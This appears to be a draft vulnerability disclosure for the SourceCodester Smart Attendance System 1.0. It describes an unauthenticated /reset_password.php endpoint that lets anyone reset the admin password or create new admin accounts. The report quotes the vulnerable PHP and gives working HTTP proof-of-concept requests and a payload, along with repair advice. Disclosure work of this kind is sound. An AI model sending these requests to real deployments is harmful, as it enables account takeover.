

# SourceCodester Smart Attendance System with QR Code Scanner 1.0 /reset_password.php username= Missing Authorization

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18702/smart-attendance-system-qr-code-scanner-phpmysql.html
- https://www.sourcecodester.com/download-code?nid=18702

## Overview

- Smart Attendance System with QR Code Scanner, version 1.0 (current public download, 2026-11), ships a password-reset endpoint `/reset_password.php` that is reachable without any authentication and accepts an attacker-chosen username plus new password. The script performs a blind `UPDATE users SET password=?` for any existing account — including the `admin` account — and, if the username does not exist, silently creates a brand-new account ("safety net"). Because the `users` table has no role column, every row is a full administrator, so one unauthenticated POST yields complete admin takeover of any deployment.

## Details

- Vulnerable file: `/reset_password.php`
- Affected version: 1.0 (current public download, 2026-11)
- The file pulls in only the database connection — no session/authorization gate of any kind — and its own header comment instructs the operator to open this script in a browser:

```php
// reset_password.php:2-4
// INSTRUCTIONS: Open this file in your browser to reset your admin password
require 'includes/db.php';
```

- Any POST overwrites the target account's password with no identity verification:

```php
// reset_password.php:17-24
$stmt = $pdo->prepare("SELECT id FROM users WHERE username = ?");
$stmt->execute([$username]);
$user = $stmt->fetch();
if ($user) {
    // Update existing user
    $update = $pdo->prepare("UPDATE users SET password = ? WHERE username = ?");
    if ($update->execute([$hash, $username])) {
```

- If the username is unknown, it registers a new (admin-equivalent) account instead:

```php
// reset_password.php:30-33
// Create new user if not exists (Safety net)
$insert = $pdo->prepare("INSERT INTO users (username, password) VALUES (?, ?)");
if ($insert->execute([$username, $hash])) {
    $message = "User '<strong>$username</strong>' was not found, so a NEW account was created with this password.";
```

- The `users` table schema has no role column — any row that can authenticate is a full admin, and `login.php:16-19` sessions whichever row matches:

```sql
-- includes/attendance_db.sql:102-107
CREATE TABLE `users` (
  `id` int(11) NOT NULL,
  `username` varchar(50) NOT NULL,
  `password` varchar(255) NOT NULL,
  ...
```

## Description

- An unauthenticated attacker can reset the password of any existing account (including `admin`) or create a new admin-equivalent account, then log in through the standard `/login.php` form. Full administrative control follows: managing students and schedules, and reaching the authenticated export path (`export_students.php`) and every other admin page. The endpoint is effectively a permanent, self-documenting backdoor: anyone who can reach the web root owns the deployment. Because the success message is rendered without escaping, the same file also carries a reflected XSS in the identical POST (reported separately for `/reset_password.php username= Reflected XSS`).

## PoC

- Step 1 — overwrite the admin password with no cookie/session:

```
POST /reset_password.php HTTP/1.1
Host: 127.0.0.1:8142
Content-Type: application/x-www-form-urlencoded

username=admin&password=PwnedUnauth123
```

- Response (password changed):

```
<div class="alert alert-success text-center">
Success! Password for user '<strong>admin</strong>' has been updated.
```

- Step 2 — log in with the attacker-chosen password:

```
POST /login.php HTTP/1.1

username=admin&password=PwnedUnauth123
```

- Response: `HTTP/1.1 302 Found` + `Set-Cookie: PHPSESSID=...` → full admin dashboard at `/index.php`.

- Step 3 — the same endpoint with an unknown username returns *"a NEW account was created with this password"* (attacker-defined admin credentials).

## Payload

```
username=admin&password=PwnedUnauth123
```

## Screenshot: attacker-defined password grants the admin dashboard

After the unauthenticated reset above, the standard login form accepted `admin` / `PwnedUnauth123` and landed on the admin dashboard — full takeover from a single anonymous POST. (Environment was restored afterwards by resetting the password back through the same endpoint and verifying the login.)



Full evidence log: `poc/F01-unauth-password-reset.txt`.

## Suggested repair

1. Require an authenticated, elevated session (e.g. `require 'includes/auth.php'`) before any password mutation, or remove the utility script from production deployments entirely.
2. Implement a real reset flow: single-use, time-limited token delivered out-of-band to the account's verified email; never trust a bare username POST.
3. Delete the "safety net" account-creation branch (reset_password.php:30-33) — silent account provisioning from an unauthenticated page is indistinguishable from a backdoor.
4. Add a role column with least-privilege roles and server-side checks, and audit existing deployments for accounts modified through this endpoint.

## Dedup note

- NVD: keyword search for the product returns exactly one CVE — CVE-2026-95957, an XSS in `student_signup.php` (`full_name`). No entry covers `reset_password.php` or any authorization issue (checked 2026-11-09).
- VulDB: the product's only entry is VDB-408556 (= CVE-2026-95957, same student_signup XSS). This unauthenticated takeover is a different file and vulnerability type — new entry.
